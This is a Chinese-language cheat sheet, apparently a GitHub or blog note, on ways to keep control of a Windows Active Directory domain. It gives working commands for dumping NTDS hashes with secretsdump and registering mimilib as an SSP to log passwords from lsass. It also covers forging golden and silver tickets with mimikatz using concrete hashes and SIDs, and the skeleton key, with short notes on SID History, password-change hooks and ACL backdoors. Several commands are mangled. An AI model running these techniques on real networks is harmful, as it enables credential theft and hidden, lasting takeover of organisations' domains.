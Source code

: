 # 域权限维持    
### 1.DSRM后门  
#### 简介   
初始化的账户，允许管理员在域环境中出现故障时进行还原。  
DSRM的密码很少被重置，修改是使用ntdsutil  目标对象为 2008(kb961320） 及之后需要拿到krbtgt 本地hash等    
#### 原理  
就是将DC本地账户的密码和域管理员的密码进行sync（同步） 然后修改注册表项使得可以使用本地管理员的身份登录域，然后pth登录就行。  
最后通过之前的impacket dump出的密码    
```
impacket-secretsdump -system system.hive -ntds ifm_ntds.dit 
```
![20211026205033](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026205033.png)  
![20211026205105](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026205105.png)


### 2.SSP维持权限   
#### 简介  
 SSP是一个dll文件，主要用来实现身份验证功能(NTLM Kerberos ) sspi就是ssp的API接口
#### 原理 
用于维持权限的原理是 有了system权限之后，lsa进行本地身份验证的时候，lsass.exe作为进程加载ssp这个dll，也就是说我们可以自定义一个dll在系统启动时加载到lsass.exe中。那么即使用户更改密码并且重新登陆攻击者依然可以获取该账户的新密码。  
#### 实际操作  
\0是作为分隔符，下面对其进行修改  
最好是在powershell当中进行，cmd进行处理会产生问题  登陆上的用户权限比较高也才能修改reg add
缺点 重启之后就没有了  
```
hklm\system\currentcontrolset\control\lsa\” /v “Security Packages” /d “kerberos\0msv1_0\0schannel\0wdigest\0mimilib.dll\0\0” /t REG_MULTI_SZ  reg add “hklm\system\currentcontrolset\control\lsa\” /v Security Packages /d kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib /t REG_MULTI_SZ
```  
![20211026205339](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026205339.png)
查看密码文件C:\WINDOWS\system32\kiwissp.log  
![20211026205358](https://picsfor.oss-cn-shenzhen.aliyuncs.com/blogs/imgs/20211026205358.png)

### 3.SID History 域后门   
#### 简介  
A域用户迁移到B域中 B域中新建的用户SID会改变进而影响迁移之后的用户进程，导致迁移之后的用户不能访问原本可以访问的资源。   
#### 原理  
SID history的作用就是在域迁移的过程中保持域用户的访问权限 ，倘若迁移之后用户的SID改变了系统会将其原来的SID添加到迁移后用户的SID History中 使迁移后的用户保持原有权限能够访问之前可以访问的资源   
#### 实现方法   
使用MIMIkatz将SID History属性添加到域中任意用户的SID History中获得了域管理员的权限，这样这些添加了SID的用户就可以拥有域管理员的权限，如何获得SIDHistory    

### 4.Gloden Ticket  
#### 原理  
黄金票据，利用krbtgt的hash制作票据  
#### 实现操作  
导出krbtgt的hash
```
lsadump::dcsync /domain:rootkit.org /user:krbtgt  获取sidwmic useraccount get name,sid   mimikatz 生成 
```
```
kerberos::golden /admin:username /domain:rootkit.org /sid: /krbtgt /ticket:administra.kiribi   
```
制作黄金票据  
```
kerberos::golden /admin:sqladmin /domain:rootkit.org /sid:S-1-5-21-3759881954-2993291187-3577547808-502 /aes256:3e65833fc9930ea83015501ec30c161da401faf6cfed9526b9ceff16c8ade745 /ticket:sqladmin.kiribi
```
导入黄金票据   
```
kerberos::ptt administra.kiribi 
```  
### 5.Sliver Ticket  
#### 原理 
利用获得的服务器的hash进行制作票据  

#### 实际操作  
```
kerberos::golden /domain:rootkit.org /sid: S-1-5-21-3759881954-2993291187-3577547808-1613/target: 192.168.3.73 /service:cifs/aes256:208cb65b02387ed3ddf328529f057fa13be6fe36a13d64f91ce79223fb43879b/user:alee/ptt  

kerberos::golden /domain:rootkit.org/sid: S-1-5-21-3759881954-2993291187-3577547808-1613 /target: 192.168.3.73 /service:cifs/rc4:ccef208c6485269c20db2cad21734fe7/user:alee/ptt  
```  

### 6.万能票据 
#### 原理  
利用注入进程的方式将我们Skeleton Key 注入到域管的lsass这个进程当中    
```
privilege::debug misc::skeleton   
```

### 7.Hook PasswordChangeNotify   
#### 简介  
因为修改密码的时候需要LSA调用PaswordFieter 来检查密码是否符合复杂性要求，如果符合的话 LSA会调用PasswordChangeNotify   
#### 原理  
注入 HookPasswordChange.dll当中 当修改用户的密码之后就会留下password文件   

### 8.ACL后门  
ACL后门注意是向一些特殊的权限例如(writeDacl)类似的权限添加给某些用户  

https://blog.riskivy.com/fun_with_acl_and_gpo/
https://www.thehacker.recipes/ad-ds/movement/access-control-entries